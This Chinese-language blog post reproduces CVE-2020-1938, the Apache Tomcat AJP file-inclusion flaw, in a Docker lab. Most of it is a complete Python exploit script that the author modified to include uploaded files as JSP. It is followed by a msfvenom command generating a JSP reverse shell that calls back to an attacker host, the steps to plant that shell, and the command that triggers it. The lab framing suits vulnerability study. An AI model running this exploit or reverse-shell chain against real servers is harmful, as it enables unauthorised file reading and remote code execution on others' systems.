



# [](#cve-2020-1938-apache-tomcat-ajp-%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2020-1938 Apache Tomcat AJP 文件包含漏洞复现

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)漏洞复现

### [](#%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)环境搭建

docker-compose.yml

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```yaml<br>version: '2'<br>services:<br> tomcat:<br>   image: vulhub/tomcat:9.0.30<br>   ports:<br>    - "8080:8080"<br>    - "8009:8009"<br>``` |

启动镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker-compose up -d<br>``` |

### [](#poc)POC

来源：[https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC](https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC)

原作者的 poc 只能读文件，将原作者 poc 的 `self.req_uri = req_uri` 改为 `self.req_uri = req_uri + ".jsp"` 即可文件包含，从而反弹 shell。

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>215<br>216<br>217<br>218<br>219<br>220<br>221<br>222<br>223<br>224<br>225<br>226<br>227<br>228<br>229<br>230<br>231<br>232<br>233<br>234<br>235<br>236<br>237<br>238<br>239<br>240<br>241<br>242<br>243<br>244<br>245<br>246<br>247<br>248<br>249<br>250<br>251<br>252<br>253<br>254<br>255<br>256<br>257<br>258<br>259<br>260<br>261<br>262<br>263<br>264<br>265<br>266<br>267<br>268<br>269<br>270<br>271<br>272<br>273<br>274<br>275<br>276<br>277<br>278<br>279<br>280<br>281<br>282<br>283<br>284<br>285<br>286<br>287<br>288<br>289<br>290<br>291<br>292<br>293<br>294<br>295<br>296<br>297<br>298<br>299<br>300<br>301<br>302<br>303<br>``` | ```python<br>#!/usr/bin/env python<br>import struct<br><br># Some references:<br># https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html<br>def pack_string(s):<br>	if s is None:<br>		return struct.pack(">h", -1)<br>	l = len(s)<br>	return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)<br>def unpack(stream, fmt):<br>	size = struct.calcsize(fmt)<br>	buf = stream.read(size)<br>	return struct.unpack(fmt, buf)<br>def unpack_string(stream):<br>	size, = unpack(stream, ">h")<br>	if size == -1: # null string<br>		return None<br>	res, = unpack(stream, "%ds" % size)<br>	stream.read(1) # \0<br>	return res<br>class NotFoundException(Exception):<br>	pass<br>class AjpBodyRequest(object):<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	MAX_REQUEST_LENGTH = 8186<br>	def __init__(self, data_stream, data_len, data_direction=None):<br>		self.data_stream = data_stream<br>		self.data_len = data_len<br>		self.data_direction = data_direction<br>	def serialize(self):<br>		data = self.data_stream.read(AjpBodyRequest.MAX_REQUEST_LENGTH)<br>		if len(data) == 0:<br>			return struct.pack(">bbH", 0x12, 0x34, 0x00)<br>		else:<br>			res = struct.pack(">H", len(data))<br>			res += data<br>		if self.data_direction == AjpBodyRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbH", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbH", 0x41, 0x42, len(res))<br>		return header + res<br>	def send_and_receive(self, socket, stream):<br>		while True:<br>			data = self.serialize()<br>			socket.send(data)<br>			r = AjpResponse.receive(stream)<br>			while r.prefix_code != AjpResponse.GET_BODY_CHUNK and r.prefix_code != AjpResponse.SEND_HEADERS:<br>				r = AjpResponse.receive(stream)<br><br>			if r.prefix_code == AjpResponse.SEND_HEADERS or len(data) == 4:<br>				break<br>class AjpForwardRequest(object):<br>	_, OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, PROPFIND, PROPPATCH, MKCOL, COPY, MOVE, LOCK, UNLOCK, ACL, REPORT, VERSION_CONTROL, CHECKIN, CHECKOUT, UNCHECKOUT, SEARCH, MKWORKSPACE, UPDATE, LABEL, MERGE, BASELINE_CONTROL, MKACTIVITY = range(28)<br>	REQUEST_METHODS = {'GET': GET, 'POST': POST, 'HEAD': HEAD, 'OPTIONS': OPTIONS, 'PUT': PUT, 'DELETE': DELETE, 'TRACE': TRACE}<br>	# server == web server, container == servlet<br>	SERVER_TO_CONTAINER, CONTAINER_TO_SERVER = range(2)<br>	COMMON_HEADERS = ["SC_REQ_ACCEPT",<br>		"SC_REQ_ACCEPT_CHARSET", "SC_REQ_ACCEPT_ENCODING", "SC_REQ_ACCEPT_LANGUAGE", "SC_REQ_AUTHORIZATION",<br>		"SC_REQ_CONNECTION", "SC_REQ_CONTENT_TYPE", "SC_REQ_CONTENT_LENGTH", "SC_REQ_COOKIE", "SC_REQ_COOKIE2",<br>		"SC_REQ_HOST", "SC_REQ_PRAGMA", "SC_REQ_REFERER", "SC_REQ_USER_AGENT"<br>	]<br>	ATTRIBUTES = ["context", "servlet_path", "remote_user", "auth_type", "query_string", "route", "ssl_cert", "ssl_cipher", "ssl_session", "req_attribute", "ssl_key_size", "secret", "stored_method"]<br>	def __init__(self, data_direction=None):<br>		self.prefix_code = 0x02<br>		self.method = None<br>		self.protocol = None<br>		self.req_uri = None<br>		self.remote_addr = None<br>		self.remote_host = None<br>		self.server_name = None<br>		self.server_port = None<br>		self.is_ssl = None<br>		self.num_headers = None<br>		self.request_headers = None<br>		self.attributes = None<br>		self.data_direction = data_direction<br>	def pack_headers(self):<br>		self.num_headers = len(self.request_headers)<br>		res = ""<br>		res = struct.pack(">h", self.num_headers)<br>		for h_name in self.request_headers:<br>			if h_name.startswith("SC_REQ"):<br>				code = AjpForwardRequest.COMMON_HEADERS.index(h_name) + 1<br>				res += struct.pack("BB", 0xA0, code)<br>			else:<br>				res += pack_string(h_name)<br><br>			res += pack_string(self.request_headers[h_name])<br>		return res<br><br>	def pack_attributes(self):<br>		res = b""<br>		for attr in self.attributes:<br>			a_name = attr['name']<br>			code = AjpForwardRequest.ATTRIBUTES.index(a_name) + 1<br>			res += struct.pack("b", code)<br>			if a_name == "req_attribute":<br>				aa_name, a_value = attr['value']<br>				res += pack_string(aa_name)<br>				res += pack_string(a_value)<br>			else:<br>				res += pack_string(attr['value'])<br>		res += struct.pack("B", 0xFF)<br>		return res<br>	def serialize(self):<br>		res = ""<br>		res = struct.pack("bb", self.prefix_code, self.method)<br>		res += pack_string(self.protocol)<br>		res += pack_string(self.req_uri)<br>		res += pack_string(self.remote_addr)<br>		res += pack_string(self.remote_host)<br>		res += pack_string(self.server_name)<br>		res += struct.pack(">h", self.server_port)<br>		res += struct.pack("?", self.is_ssl)<br>		res += self.pack_headers()<br>		res += self.pack_attributes()<br>		if self.data_direction == AjpForwardRequest.SERVER_TO_CONTAINER:<br>			header = struct.pack(">bbh", 0x12, 0x34, len(res))<br>		else:<br>			header = struct.pack(">bbh", 0x41, 0x42, len(res))<br>		return header + res<br>	def parse(self, raw_packet):<br>		stream = StringIO(raw_packet)<br>		self.magic1, self.magic2, data_len = unpack(stream, "bbH")<br>		self.prefix_code, self.method = unpack(stream, "bb")<br>		self.protocol = unpack_string(stream)<br>		self.req_uri = unpack_string(stream)<br>		self.remote_addr = unpack_string(stream)<br>		self.remote_host = unpack_string(stream)<br>		self.server_name = unpack_string(stream)<br>		self.server_port = unpack(stream, ">h")<br>		self.is_ssl = unpack(stream, "?")<br>		self.num_headers, = unpack(stream, ">H")<br>		self.request_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code > 0xA000:<br>				h_name = AjpForwardRequest.COMMON_HEADERS[code - 0xA001]<br>			else:<br>				h_name = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>			h_value = unpack_string(stream)<br>			self.request_headers[h_name] = h_value<br>	def send_and_receive(self, socket, stream, save_cookies=False):<br>		res = []<br>		i = socket.sendall(self.serialize())<br>		if self.method == AjpForwardRequest.POST:<br>			return res<br><br>		r = AjpResponse.receive(stream)<br>		assert r.prefix_code == AjpResponse.SEND_HEADERS<br>		res.append(r)<br>		if save_cookies and 'Set-Cookie' in r.response_headers:<br>			self.headers['SC_REQ_COOKIE'] = r.response_headers['Set-Cookie']<br><br>		# read body chunks and end response packets<br>		while True:<br>			r = AjpResponse.receive(stream)<br>			res.append(r)<br>			if r.prefix_code == AjpResponse.END_RESPONSE:<br>				break<br>			elif r.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>				continue<br>			else:<br>				raise NotImplementedError<br>				break<br><br>		return res<br><br>class AjpResponse(object):<br>	_,_,_,SEND_BODY_CHUNK, SEND_HEADERS, END_RESPONSE, GET_BODY_CHUNK = range(7)<br>	COMMON_SEND_HEADERS = [<br>			"Content-Type", "Content-Language", "Content-Length", "Date", "Last-Modified",<br>			"Location", "Set-Cookie", "Set-Cookie2", "Servlet-Engine", "Status", "WWW-Authenticate"<br>			]<br>	def parse(self, stream):<br>		# read headers<br>		self.magic, self.data_length, self.prefix_code = unpack(stream, ">HHb")<br><br>		if self.prefix_code == AjpResponse.SEND_HEADERS:<br>			self.parse_send_headers(stream)<br>		elif self.prefix_code == AjpResponse.SEND_BODY_CHUNK:<br>			self.parse_send_body_chunk(stream)<br>		elif self.prefix_code == AjpResponse.END_RESPONSE:<br>			self.parse_end_response(stream)<br>		elif self.prefix_code == AjpResponse.GET_BODY_CHUNK:<br>			self.parse_get_body_chunk(stream)<br>		else:<br>			raise NotImplementedError<br><br>	def parse_send_headers(self, stream):<br>		self.http_status_code, = unpack(stream, ">H")<br>		self.http_status_msg = unpack_string(stream)<br>		self.num_headers, = unpack(stream, ">H")<br>		self.response_headers = {}<br>		for i in range(self.num_headers):<br>			code, = unpack(stream, ">H")<br>			if code <= 0xA000: # custom header<br>				h_name, = unpack(stream, "%ds" % code)<br>				stream.read(1) # \0<br>				h_value = unpack_string(stream)<br>			else:<br>				h_name = AjpResponse.COMMON_SEND_HEADERS[code-0xA001]<br>				h_value = unpack_string(stream)<br>			self.response_headers[h_name] = h_value<br><br>	def parse_send_body_chunk(self, stream):<br>		self.data_length, = unpack(stream, ">H")<br>		self.data = stream.read(self.data_length+1)<br><br>	def parse_end_response(self, stream):<br>		self.reuse, = unpack(stream, "b")<br><br>	def parse_get_body_chunk(self, stream):<br>		rlen, = unpack(stream, ">H")<br>		return rlen<br><br>	@staticmethod<br>	def receive(stream):<br>		r = AjpResponse()<br>		r.parse(stream)<br>		return r<br><br>import socket<br><br>def prepare_ajp_forward_request(target_host, req_uri, method=AjpForwardRequest.GET):<br>	fr = AjpForwardRequest(AjpForwardRequest.SERVER_TO_CONTAINER)<br>	fr.method = method<br>	fr.protocol = "HTTP/1.1"<br>	fr.req_uri = req_uri<br>	fr.remote_addr = target_host<br>	fr.remote_host = None<br>	fr.server_name = target_host<br>	fr.server_port = 80<br>	fr.request_headers = {<br>		'SC_REQ_ACCEPT': 'text/html',<br>		'SC_REQ_CONNECTION': 'keep-alive',<br>		'SC_REQ_CONTENT_LENGTH': '0',<br>		'SC_REQ_HOST': target_host,<br>		'SC_REQ_USER_AGENT': 'Mozilla',<br>		'Accept-Encoding': 'gzip, deflate, sdch',<br>		'Accept-Language': 'en-US,en;q=0.5',<br>		'Upgrade-Insecure-Requests': '1',<br>		'Cache-Control': 'max-age=0'<br>	}<br>	fr.is_ssl = False<br>	fr.attributes = []<br>	return fr<br><br>class Tomcat(object):<br>	def __init__(self, target_host, target_port):<br>		self.target_host = target_host<br>		self.target_port = target_port<br><br>		self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>		self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)<br>		self.socket.connect((target_host, target_port))<br>		self.stream = self.socket.makefile("rb", bufsize=0)<br><br>	def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):<br>    # 文件读取<br>		# self.req_uri = req_uri <br>    # 文件包含<br>		self.req_uri = req_uri + ".jsp"<br>		self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))<br>		print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))<br>		if user is not None and password is not None:<br>			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')<br>		for h in headers:<br>			self.forward_request.request_headers[h] = headers[h]<br>		for a in attributes:<br>			self.forward_request.attributes.append(a)<br>		responses = self.forward_request.send_and_receive(self.socket, self.stream)<br>		if len(responses) == 0:<br>			return None, None<br>		snd_hdrs_res = responses[0]<br>		data_res = responses[1:-1]<br>		if len(data_res) == 0:<br>			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)<br>		return snd_hdrs_res, data_res<br><br>'''<br>javax.servlet.include.request_uri<br>javax.servlet.include.path_info<br>javax.servlet.include.servlet_path<br>'''<br><br>import argparse<br>parser = argparse.ArgumentParser()<br>parser.add_argument("target", type=str, help="Hostname or IP to attack")<br>parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")<br>parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")<br>args = parser.parse_args()<br>t = Tomcat(args.target, args.port)<br>_,data = t.perform_request('/asdf',attributes=[<br>    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},<br>    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},<br>    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},<br>    ])<br>print('----------------------------')<br>print("".join([d.data for d in data]))<br>``` |

执行 poc

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```python<br>python2 poc.py 127.0.0.1 -p 8009 -f "WEB-INF/web.xml"<br>``` |


### [](#%E5%8F%8D%E5%BC%B9-shell)反弹 shell

#### [](#msfvenom-%E7%94%9F%E6%88%90-webshell)msfvenom 生成 webshell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 > shell.txt<br>``` |


#### [](#%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6)上传文件

由于该漏洞要配合 `文件上传` ，再进行文件包含，进而执行命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br># 查看容器 ID<br>docker ps -a<br>docker cp shell.txt 容器ID:/usr/local/tomcat/webapps/ROOT/shell.txt<br>``` |

查看文件：


#### [](#%E5%90%AF%E5%8A%A8-msf-%E7%9B%91%E5%90%AC)启动 msf 监听



#### [](#%E6%89%A7%E8%A1%8C%E4%BF%AE%E6%94%B9%E5%90%8E%E7%9A%84-exp)执行`修改后`的 exp：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python2 poc.py 127.0.0.1 -p 8009 -f "/shell.txt"<br>``` |

`注意`：本人在测试时，使用一般的传参数的 webshell 时无法正确解析，可以进一步修改脚本解决。



成功弹回 shell


